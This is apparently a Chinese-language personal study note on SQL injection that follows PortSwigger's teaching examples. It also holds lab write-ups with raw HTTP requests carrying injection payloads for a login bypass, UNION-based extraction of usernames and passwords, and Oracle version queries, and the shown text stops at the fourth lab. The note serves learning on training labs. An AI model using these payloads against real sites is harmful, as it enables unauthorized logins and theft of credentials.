

<!DOCTYPE html>
<html lang="en"><head><title>SQL Injection</title><meta charset="utf-8"/><link rel="preconnect" href="https://fonts.googleapis.com"/><link rel="preconnect" href="https://fonts.gstatic.com"/><link rel="stylesheet" href="https://fonts.googleapis.com/css2?family=IBM Plex Mono&amp;family=Schibsted Grotesk:wght@400;700&amp;family=Source Sans Pro:ital,wght@0,400;0,600;1,400;1,600&amp;display=swap"/><meta name="viewport" content="width=device-width, initial-scale=1.0"/><meta property="og:title" content="SQL Injection"/><meta property="og:description" content="SQL 注入的危害 注入成功可能导致，未授权情况下获取敏感信息，如密码，身份卡等或其他个人信息。在特定条件下甚至可以执行命令，上传恶意文件，从而注入 Webshell 或后门。 SQL 注入示例 portswigger 上列举了一些例子 获取本不该出现的数据 修改应用逻辑 UNION 查询 获取数据库的信息，如版本，表结构 盲注，此时不会有明显的回显 ..."/><meta property="og:image" content="https://www.trganda.top/static/og-image.png"/><meta property="og:width" content="1200"/><meta property="og:height" content="675"/><link rel="icon" href="../../../static/icon.png"/><meta name="description" content="SQL 注入的危害 注入成功可能导致，未授权情况下获取敏感信息，如密码，身份卡等或其他个人信息。在特定条件下甚至可以执行命令，上传恶意文件，从而注入 Webshell 或后门。 SQL 注入示例 portswigger 上列举了一些例子 获取本不该出现的数据 修改应用逻辑 UNION 查询 获取数据库的信息，如版本，表结构 盲注，此时不会有明显的回显 ..."/><meta name="generator" content="Quartz"/><link href="../../../index.css" rel="stylesheet" type="text/css" spa-preserve/><link href="https://cdnjs.cloudflare.com/ajax/libs/KaTeX/0.16.9/katex.min.css" rel="stylesheet" type="text/css" spa-preserve/><script src="../../../prescript.js" type="application/javascript" spa-preserve></script><script type="application/javascript" spa-preserve>const fetchData = fetch("../../../static/contentIndex.json").then(data => data.json())</script></head><body data-slug="articles/security/web/SQL-Injection"><div id="quartz-root" class="page"><div id="quartz-body"><div class="left sidebar"><h1 class="page-title"><a href="../../..">Trganda's Notes</a></h1><div class="spacer mobile-only"></div><div class="search"><div id="search-icon"><p>Search</p><div></div><svg tabindex="0" aria-labelledby="title desc" role="img" xmlns="http://www.w3.org/2000/svg" viewBox="0 0 19.9 19.7"><title id="title">Search</title><desc id="desc">Search</desc><g class="search-path" fill="none"><path stroke-linecap="square" d="M18.5 18.3l-5.4-5.4"></path><circle cx="8" cy="8" r="7"></circle></g></svg></div><div id="search-container"><div id="search-space"><input autocomplete="off" id="search-bar" name="search" type="text" aria-label="Search for something" placeholder="Search for something"/><div id="search-layout" data-preview="true"></div></div></div></div><div class="darkmode"><input class="toggle" id="darkmode-toggle" type="checkbox" tabindex="-1"/><label id="toggle-label-light" for="darkmode-toggle" tabindex="-1"><svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1" id="dayIcon" x="0px" y="0px" viewBox="0 0 35 35" style="enable-background:new 0 0 35 35" xml:space="preserve"><title>Dark mode</title><path d="M6,17.5C6,16.672,5.328,16,4.5,16h-3C0.672,16,0,16.672,0,17.5    S0.672,19,1.5,19h3C5.328,19,6,18.328,6,17.5z M7.5,26c-0.414,0-0.789,0.168-1.061,0.439l-2,2C4.168,28.711,4,29.086,4,29.5    C4,30.328,4.671,31,5.5,31c0.414,0,0.789-0.168,1.06-0.44l2-2C8.832,28.289,9,27.914,9,27.5C9,26.672,8.329,26,7.5,26z M17.5,6    C18.329,6,19,5.328,19,4.5v-3C19,0.672,18.329,0,17.5,0S16,0.672,16,1.5v3C16,5.328,16.671,6,17.5,6z M27.5,9    c0.414,0,0.789-0.168,1.06-0.439l2-2C30.832,6.289,31,5.914,31,5.5C31,4.672,30.329,4,29.5,4c-0.414,0-0.789,0.168-1.061,0.44    l-2,2C26.168,6.711,26,7.086,26,7.5C26,8.328,26.671,9,27.5,9z M6.439,8.561C6.711,8.832,7.086,9,7.5,9C8.328,9,9,8.328,9,7.5    c0-0.414-0.168-0.789-0.439-1.061l-2-2C6.289,4.168,5.914,4,5.5,4C4.672,4,4,4.672,4,5.5c0,0.414,0.168,0.789,0.439,1.06    L6.439,8.561z M33.5,16h-3c-0.828,0-1.5,0.672-1.5,1.5s0.672,1.5,1.5,1.5h3c0.828,0,1.5-0.672,1.5-1.5S34.328,16,33.5,16z     M28.561,26.439C28.289,26.168,27.914,26,27.5,26c-0.828,0-1.5,0.672-1.5,1.5c0,0.414,0.168,0.789,0.439,1.06l2,2    C28.711,30.832,29.086,31,29.5,31c0.828,0,1.5-0.672,1.5-1.5c0-0.414-0.168-0.789-0.439-1.061L28.561,26.439z M17.5,29    c-0.829,0-1.5,0.672-1.5,1.5v3c0,0.828,0.671,1.5,1.5,1.5s1.5-0.672,1.5-1.5v-3C19,29.672,18.329,29,17.5,29z M17.5,7    C11.71,7,7,11.71,7,17.5S11.71,28,17.5,28S28,23.29,28,17.5S23.29,7,17.5,7z M17.5,25c-4.136,0-7.5-3.364-7.5-7.5    c0-4.136,3.364-7.5,7.5-7.5c4.136,0,7.5,3.364,7.5,7.5C25,21.636,21.636,25,17.5,25z"></path></svg></label><label id="toggle-label-dark" for="darkmode-toggle" tabindex="-1"><svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1" id="nightIcon" x="0px" y="0px" viewBox="0 0 100 100" style="enable-background:new 0 0 100 100" xml:space="preserve"><title>Light mode</title><path d="M96.76,66.458c-0.853-0.852-2.15-1.064-3.23-0.534c-6.063,2.991-12.858,4.571-19.655,4.571  C62.022,70.495,50.88,65.88,42.5,57.5C29.043,44.043,25.658,23.536,34.076,6.47c0.532-1.08,0.318-2.379-0.534-3.23  c-0.851-0.852-2.15-1.064-3.23-0.534c-4.918,2.427-9.375,5.619-13.246,9.491c-9.447,9.447-14.65,22.008-14.65,35.369  c0,13.36,5.203,25.921,14.65,35.368s22.008,14.65,35.368,14.65c13.361,0,25.921-5.203,35.369-14.65  c3.872-3.871,7.064-8.328,9.491-13.246C97.826,68.608,97.611,67.309,96.76,66.458z"></path></svg></label></div><div class="recent-notes desktop-only"><h3>Recent Notes</h3><ul class="recent-ul"><li class="recent-li"><div class="section"><div class="desc"><h3><a href="../../../til/issues/甲状腺结节与胆结石注意事项" class="internal">甲状腺结节与胆结石注意事项</a></h3></div><p class="meta">Jul 28, 2024</p><ul class="tags"></ul></div></li><li class="recent-li"><div class="section"><div class="desc"><h3><a href="../../../cavans/拉里事迹" class="internal">拉里事迹</a></h3></div><p class="meta">Jul 28, 2024</p><ul class="tags"></ul></div></li><li class="recent-li"><div class="section"><div class="desc"><h3><a href="../../../projects/Web-漏洞解析与攻防实战/HTTP-协议与编码" class="internal">HTTP 协议与编码</a></h3></div><p class="meta">Jul 28, 2024</p><ul class="tags"></ul></div></li></ul></div></div><div class="center"><div class="page-header"><div class="popover-hint"><nav class="breadcrumb-container" aria-label="breadcrumbs"><div class="breadcrumb-element"><a href="../../../">Home</a><p> ❯ </p></div><div class="breadcrumb-element"><a href="../../../articles/">articles</a><p> ❯ </p></div><div class="breadcrumb-element"><a href="../../../articles/security/">security</a><p> ❯ </p></div><div class="breadcrumb-element"><a href="../../../articles/security/web/">web</a><p> ❯ </p></div><div class="breadcrumb-element"><a href>SQL Injection</a></div></nav><h1 class="article-title">SQL Injection</h1><p show-comma="true" class="content-meta"><span>Aug 18, 2023</span><span>17 min read</span></p><ul class="tags"><li><a href="../../../tags/sql" class="internal tag-link">sql</a></li><li><a href="../../../tags/injection" class="internal tag-link">injection</a></li></ul></div></div><article class="popover-hint"><h2 id="sql-注入的危害">SQL 注入的危害<a role="anchor" aria-hidden="true" tabindex="-1" data-no-popover="true" href="#sql-注入的危害" class="internal"><svg width="18" height="18" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round"><path d="M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71"></path><path d="M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71"></path></svg></a></h2>
<p>注入成功可能导致，未授权情况下获取敏感信息，如密码，身份卡等或其他个人信息。在特定条件下甚至可以执行命令，上传恶意文件，从而注入 Webshell 或后门。</p>
<h2 id="sql-注入示例">SQL 注入示例<a role="anchor" aria-hidden="true" tabindex="-1" data-no-popover="true" href="#sql-注入示例" class="internal"><svg width="18" height="18" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round"><path d="M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71"></path><path d="M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71"></path></svg></a></h2>
<p><code>portswigger</code> 上列举了一些例子</p>
<ul>
<li>获取本不该出现的数据</li>
<li>修改应用逻辑</li>
<li>UNION 查询</li>
<li>获取数据库的信息，如版本，表结构</li>
<li>盲注，此时不会有明显的回显</li>
</ul>
<h3 id="retrieving-hidden-data">Retrieving Hidden Data<a role="anchor" aria-hidden="true" tabindex="-1" data-no-popover="true" href="#retrieving-hidden-data" class="internal"><svg width="18" height="18" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round"><path d="M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71"></path><path d="M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71"></path></svg></a></h3>
<p>比如某个网站接口如下</p>
<figure data-rehype-pretty-code-figure><pre tabindex="0" data-language="text-plain" data-theme="github-light github-dark"><code data-language="text-plain" data-theme="github-light github-dark" style="display:grid;"><span data-line><span>https://insecure-website.com/products?category=Gifts</span></span></code></pre></figure>
<p>其背后逻辑为，获取 <code>category</code> 参数内容，并拼接到 SQL 语句中执行。</p>
<figure data-rehype-pretty-code-figure><pre tabindex="0" data-language="text-plain" data-theme="github-light github-dark"><code data-language="text-plain" data-theme="github-light github-dark" style="display:grid;"><span data-line><span>SELECT * FROM products WHERE category = 'Gifts' AND released = 1</span></span></code></pre></figure>
<p>如果执行成功会将结果返回到页面之中，这条语句限定了另一个条件 <code>released = 1</code>。那么可以通过下面的方式让它获取所有 <code>category = ‘Gifts’</code> 的数据。</p>
<figure data-rehype-pretty-code-figure><pre tabindex="0" data-language="text-plain" data-theme="github-light github-dark"><code data-language="text-plain" data-theme="github-light github-dark" style="display:grid;"><span data-line><span>https://insecure-website.com/products?category=Gifts'--</span></span></code></pre></figure>
<p>这是因为 <code>--</code> 为注释符，所以后面的条件不会生效。</p>
<p>再进一步，想获取 <code>category</code> 为任意值时的信息呢？通过或语句，让条件一直为真</p>
<figure data-rehype-pretty-code-figure><pre tabindex="0" data-language="text-plain" data-theme="github-light github-dark"><code data-language="text-plain" data-theme="github-light github-dark" style="display:grid;"><span data-line><span>https://insecure-website.com/products?category=Gifts'+OR+1=1--</span></span></code></pre></figure>
<p><code>+</code> 号上分隔符，作用类似空格或制表符。</p>
<p>而最终执行的 SQL 语句如下</p>
<figure data-rehype-pretty-code-figure><pre tabindex="0" data-language="text-plain" data-theme="github-light github-dark"><code data-language="text-plain" data-theme="github-light github-dark" style="display:grid;"><span data-line><span>SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1</span></span></code></pre></figure>
<h3 id="subverting-application-logic">Subverting Application Logic<a role="anchor" aria-hidden="true" tabindex="-1" data-no-popover="true" href="#subverting-application-logic" class="internal"><svg width="18" height="18" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round"><path d="M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71"></path><path d="M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71"></path></svg></a></h3>
<p>假设某个网站通过下面这样的 SQL 语句来判断用户的账户名和密码是否为正确的，执行结果不为空则可以登录，反之不行</p>
<figure data-rehype-pretty-code-figure><pre tabindex="0" data-language="text-plain" data-theme="github-light github-dark"><code data-language="text-plain" data-theme="github-light github-dark" style="display:grid;"><span data-line><span>SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'</span></span></code></pre></figure>
<p>那么按照前面的方式，可以修改 username 对应的参数，让它执行如下语句</p>
<figure data-rehype-pretty-code-figure><pre tabindex="0" data-language="text-plain" data-theme="github-light github-dark"><code data-language="text-plain" data-theme="github-light github-dark" style="display:grid;"><span data-line><span>SELECT * FROM users WHERE username = 'administrator'--' AND password = ''</span></span></code></pre></figure>
<p>那么就可以不需要密码登录 <code>administrator</code> 账号</p>
<h3 id="retrieving-data-from-other-database-tables">Retrieving Data from other Database Tables<a role="anchor" aria-hidden="true" tabindex="-1" data-no-popover="true" href="#retrieving-data-from-other-database-tables" class="internal"><svg width="18" height="18" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round"><path d="M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71"></path><path d="M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71"></path></svg></a></h3>
<p>SQL 语句中，可以通过 UNION 来联合查询另一张表的数据，并合并到结果中，但是要求所查询的列数据类型是兼容的。</p>
<figure data-rehype-pretty-code-figure><pre tabindex="0" data-language="text-plain" data-theme="github-light github-dark"><code data-language="text-plain" data-theme="github-light github-dark" style="display:grid;"><span data-line><span>SELECT name, description FROM products WHERE category = 'Gifts'</span></span></code></pre></figure>
<p>那么让参数 <code>category</code> 的内容为</p>
<figure data-rehype-pretty-code-figure><pre tabindex="0" data-language="text-plain" data-theme="github-light github-dark"><code data-language="text-plain" data-theme="github-light github-dark" style="display:grid;"><span data-line><span>' UNION SELECT username, password FROM users--</span></span></code></pre></figure>
<p>这样执行的语句为</p>
<figure data-rehype-pretty-code-figure><pre tabindex="0" data-language="text-plain" data-theme="github-light github-dark"><code data-language="text-plain" data-theme="github-light github-dark" style="display:grid;"><span data-line><span>SELECT name, description FROM products WHERE category = '' UNION SELECT username, password FROM users--</span></span></code></pre></figure>
<p>就可以获取所有的用户名和密码数据了。</p>
<h3 id="examining-the-database">Examining the Database<a role="anchor" aria-hidden="true" tabindex="-1" data-no-popover="true" href="#examining-the-database" class="internal"><svg width="18" height="18" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round"><path d="M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71"></path><path d="M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71"></path></svg></a></h3>
<p>如果能够进行 <code>SQL</code> 注入，可以通过数据库自身的特性获取它的一些信息。由于数据库提供商较多，对于 <code>Oracle</code></p>
<figure data-rehype-pretty-code-figure><pre tabindex="0" data-language="text-plain" data-theme="github-light github-dark"><code data-language="text-plain" data-theme="github-light github-dark" style="display:grid;"><span data-line><span>SELECT * FROM v$version</span></span></code></pre></figure>
<p>可以获取版本号</p>
<p>而 <code>MySQL</code> 则可以像下面这样</p>
<figure data-rehype-pretty-code-figure><pre tabindex="0" data-language="text-plain" data-theme="github-light github-dark"><code data-language="text-plain" data-theme="github-light github-dark" style="display:grid;"><span data-line><span>SELECT * FROM information_schema.tables</span></span></code></pre></figure>
<h3 id="blind-sql-injection-vulnerabilities">Blind SQL Injection Vulnerabilities<a role="anchor" aria-hidden="true" tabindex="-1" data-no-popover="true" href="#blind-sql-injection-vulnerabilities" class="internal"><svg width="18" height="18" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round"><path d="M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71"></path><path d="M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71"></path></svg></a></h3>
<p>前面列举的情况在这个时代是难以碰到的，大多数情况下，即便是可注入的点也不会有回显。</p>
<p>那么对于这种情况，基于漏洞本身的和数据库的特点，可以通过一些方式进行试探性的注入。</p>
<p>比如，通过让目标系统执行 SQL 语句时带上附加条件，达成时间盲注，或报错等。或是使用 <a href="https://portswigger.net/burp/application-security-testing/oast" class="external">OAST<svg class="external-icon" viewBox="0 0 512 512"><path d="M320 0H288V64h32 82.7L201.4 265.4 178.7 288 224 333.3l22.6-22.6L448 109.3V192v32h64V192 32 0H480 320zM32 32H0V64 480v32H32 456h32V480 352 320H424v32 96H64V96h96 32V32H160 32z"></path></svg></a> 技术进行测试。</p>
<h3 id="labs">Labs<a role="anchor" aria-hidden="true" tabindex="-1" data-no-popover="true" href="#labs" class="internal"><svg width="18" height="18" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round"><path d="M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71"></path><path d="M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71"></path></svg></a></h3>
<h4 id="lab-1-sql-injection-vulnerability-in-where-clause-allowing-retrieval-of-hidden-data">Lab 1: SQL Injection Vulnerability in WHERE Clause Allowing Retrieval of Hidden Data<a role="anchor" aria-hidden="true" tabindex="-1" data-no-popover="true" href="#lab-1-sql-injection-vulnerability-in-where-clause-allowing-retrieval-of-hidden-data" class="internal"><svg width="18" height="18" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round"><path d="M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71"></path><path d="M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71"></path></svg></a></h4>
<blockquote class="callout info" data-callout="info">
<div class="callout-title">
                  <div class="callout-icon"></div>
                  <div class="callout-title-inner"><p>Info</p></div>
                  
                </div>
<p>链接 <a href="https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data" class="external">https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data<svg class="external-icon" viewBox="0 0 512 512"><path d="M320 0H288V64h32 82.7L201.4 265.4 178.7 288 224 333.3l22.6-22.6L448 109.3V192v32h64V192 32 0H480 320zM32 32H0V64 480v32H32 456h32V480 352 320H424v32 96H64V96h96 32V32H160 32z"></path></svg></a></p>
</blockquote>
<p>目标：需要取回所有没有 released 商品信息，使用如下注入语句</p>
<figure data-rehype-pretty-code-figure><pre tabindex="0" data-language="http" data-theme="github-light github-dark"><code data-language="http" data-theme="github-light github-dark" style="display:grid;"><span data-line><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">GET</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;"> /filter?category={{urlescape(Pets' or 1=1 and released = 0 --)}} </span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">HTTP</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;">/</span><span style="--shiki-light:#005CC5;--shiki-dark:#79B8FF;">1.1</span></span></code></pre></figure>
<p></p>
<h4 id="lab-2-sql-injection-vulnerability-allowing-login-bypass">Lab 2: SQL Injection Vulnerability Allowing Login Bypass<a role="anchor" aria-hidden="true" tabindex="-1" data-no-popover="true" href="#lab-2-sql-injection-vulnerability-allowing-login-bypass" class="internal"><svg width="18" height="18" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round"><path d="M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71"></path><path d="M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71"></path></svg></a></h4>
<blockquote class="callout info" data-callout="info">
<div class="callout-title">
                  <div class="callout-icon"></div>
                  <div class="callout-title-inner"><p>Info</p></div>
                  
                </div>
<p>链接 <a href="https://portswigger.net/web-security/sql-injection/lab-login-bypass" class="external">https://portswigger.net/web-security/sql-injection/lab-login-bypass<svg class="external-icon" viewBox="0 0 512 512"><path d="M320 0H288V64h32 82.7L201.4 265.4 178.7 288 224 333.3l22.6-22.6L448 109.3V192v32h64V192 32 0H480 320zM32 32H0V64 480v32H32 456h32V480 352 320H424v32 96H64V96h96 32V32H160 32z"></path></svg></a></p>
</blockquote>
<p>目标：以 <code>administrator</code> 用户身份登陆。</p>
<p>猜测内部查询语句为</p>
<pre><code>select * from user where username='xxx' and password='xxx'
</code></pre>
<p>在 <code>username</code> 前，修改注入语句的逻辑，让条件为真，构造如下请求</p>
<blockquote>
<p>注意需要提供 <code>session</code> 和 <code>csrf token</code>，另外在 <code>Yakit</code> 的 <code>WebFuzzer</code> 中提交请求后虽然出现了 <code>302</code>，但跟随重定向不会 <code>Solve</code> 这个 <code>Lab</code> ，需要复制 <code>cookie</code> 并在浏览器中打开后修改邮件地址。</p>
</blockquote>
<figure data-rehype-pretty-code-figure><pre tabindex="0" data-language="http" data-theme="github-light github-dark"><code data-language="http" data-theme="github-light github-dark" style="display:grid;"><span data-line><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">POST</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;"> /login </span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">HTTP</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;">/</span><span style="--shiki-light:#005CC5;--shiki-dark:#79B8FF;">1.1</span></span>
<span data-line><span style="--shiki-light:#22863A;--shiki-dark:#85E89D;">Host</span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">:</span><span style="--shiki-light:#032F62;--shiki-dark:#9ECBFF;"> 0a6e003404d174b28063539700880075.web-security-academy.net</span></span>
<span data-line><span style="--shiki-light:#22863A;--shiki-dark:#85E89D;">Connection</span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">:</span><span style="--shiki-light:#032F62;--shiki-dark:#9ECBFF;"> keep-alive</span></span>
<span data-line><span style="--shiki-light:#22863A;--shiki-dark:#85E89D;">Content-Length</span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">:</span><span style="--shiki-light:#032F62;--shiki-dark:#9ECBFF;"> 85</span></span>
<span data-line><span style="--shiki-light:#22863A;--shiki-dark:#85E89D;">Cache-Control</span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">:</span><span style="--shiki-light:#032F62;--shiki-dark:#9ECBFF;"> max-age=0</span></span>
<span data-line><span style="--shiki-light:#22863A;--shiki-dark:#85E89D;">Origin</span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">:</span><span style="--shiki-light:#032F62;--shiki-dark:#9ECBFF;"> https://0a6e003404d174b28063539700880075.web-security-academy.net</span></span>
<span data-line><span style="--shiki-light:#22863A;--shiki-dark:#85E89D;">Content-Type</span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">:</span><span style="--shiki-light:#032F62;--shiki-dark:#9ECBFF;"> application/x-www-form-urlencoded</span></span>
<span data-line><span style="--shiki-light:#22863A;--shiki-dark:#85E89D;">User-Agent</span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">:</span><span style="--shiki-light:#032F62;--shiki-dark:#9ECBFF;"> Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36</span></span>
<span data-line><span style="--shiki-light:#22863A;--shiki-dark:#85E89D;">Cookie</span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">:</span><span style="--shiki-light:#032F62;--shiki-dark:#9ECBFF;"> session=79u2w5Oky0VXWeOiAd4jrlyRlnNPm4JK</span></span>
<span data-line> </span>
<span data-line><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;">csrf=ig8qzUsJKKKhaYl8MRVjUnnKiyGPCcOW&amp;username=administrator%27+or+1%3D1--&amp;password=1</span></span></code></pre></figure>
<h4 id="lab-3-lab-sql-injection-attack-querying-the-database-type-and-version-on-oracle">Lab 3: Lab: SQL Injection Attack, Querying the Database Type and Version on Oracle<a role="anchor" aria-hidden="true" tabindex="-1" data-no-popover="true" href="#lab-3-lab-sql-injection-attack-querying-the-database-type-and-version-on-oracle" class="internal"><svg width="18" height="18" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round"><path d="M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71"></path><path d="M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71"></path></svg></a></h4>
<blockquote class="callout info" data-callout="info">
<div class="callout-title">
                  <div class="callout-icon"></div>
                  <div class="callout-title-inner"><p>Info</p></div>
                  
                </div>
<p>链接 <a href="https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle" class="external">https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle<svg class="external-icon" viewBox="0 0 512 512"><path d="M320 0H288V64h32 82.7L201.4 265.4 178.7 288 224 333.3l22.6-22.6L448 109.3V192v32h64V192 32 0H480 320zM32 32H0V64 480v32H32 456h32V480 352 320H424v32 96H64V96h96 32V32H160 32z"></path></svg></a></p>
</blockquote>
<p>目标：联合查询读取数据库信息</p>
<figure data-rehype-pretty-code-figure><pre tabindex="0" data-language="http" data-theme="github-light github-dark"><code data-language="http" data-theme="github-light github-dark" style="display:grid;"><span data-line><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">GET</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;"> /filter?category={{urlescape(Gifts' union select banner,null from v$version--)}} </span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">HTTP</span><span style="--shiki-light:#24292E;--shiki-dark:#E1E4E8;">/</span><span style="--shiki-light:#005CC5;--shiki-dark:#79B8FF;">1.1</span></span>
<span data-line><span style="--shiki-light:#22863A;--shiki-dark:#85E89D;">Host</span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">:</span><span style="--shiki-light:#032F62;--shiki-dark:#9ECBFF;"> 0aa600a803b4377080c435d400df00d4.web-security-academy.net</span></span>
<span data-line><span style="--shiki-light:#22863A;--shiki-dark:#85E89D;">User-Agent</span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">:</span><span style="--shiki-light:#032F62;--shiki-dark:#9ECBFF;"> Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36</span></span>
<span data-line><span style="--shiki-light:#22863A;--shiki-dark:#85E89D;">Cookie</span><span style="--shiki-light:#D73A49;--shiki-dark:#F97583;">:</span><span style="--shiki-light:#032F62;--shiki-dark:#9ECBFF;"> session=yF7hkPrbZIxX4MUDh8jK5eVca3fwXJjo</span></span></code></pre></figure>
<p>思路，category 参数 <code>'</code> 测试会报错，通过 <code>order by</code> 测试列数，为 <code>2</code>。通过 <a href="https://portswigger.net/web-security/sql-injection/cheat-sheet" class="external">Cheat Sheet<svg class="external-icon" viewBox="0 0 512 512"><path d="M320 0H288V64h32 82.7L201.4 265.4 178.7 288 224 333.3l22.6-22.6L448 109.3V192v32h64V192 32 0H480 320zM32 32H0V64 480v32H32 456h32V480 352 320H424v32 96H64V96h96 32V32H160 32z"></path></svg></a>，尝试读取 <code>v$instance</code> 的 <code>version</code> 但报错『<code>' union select version,null from v$instance--</code>』，这个表大概率只有一列，尝试读取 <code>v$version</code> 成功。</p>
<h4 id="lab-4-sql-injection-attack-querying-the-database-type-and-version-on-mysql-and-microsoft">Lab 4: SQL Injection Attack, Querying the Database Type and Version on MySQL and Microsoft<a role="anchor" aria-hidden="true" tabindex="-1" data-no-popover="true" href="#lab-4-sql-injection-attack-querying-the-database-type-and-version-on-mysql-and-microsoft" class="internal"><svg width="18" height="18" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round"><path d="M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71"></path><path d="M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71"></path></svg></a></h4>
<blockquote class="callout info" data-callout="info">
<div class="callout-title">
                  <div class="callout-icon"></div>
                  <div class="callout-title-inner"><p>Info</p></div>
                  
                </div>
<p>链接 <a href="https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft" class="external">https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft<svg class="external-icon" viewBox="0 0 512 512"><path d="M320 0H288V64h32 82.7L201.4 265.4 178.7 288 224 333.3l22.6-22.6L448 109.3V192v32h64V192 32 0H480 320zM32 32H0V64 480v32H32 456h32V480 352 320H424v32 96H64V96h96 32V32H160 32z"></path></svg></a></p>
</blockquote>
<p>目标：读取数据库版本</p>
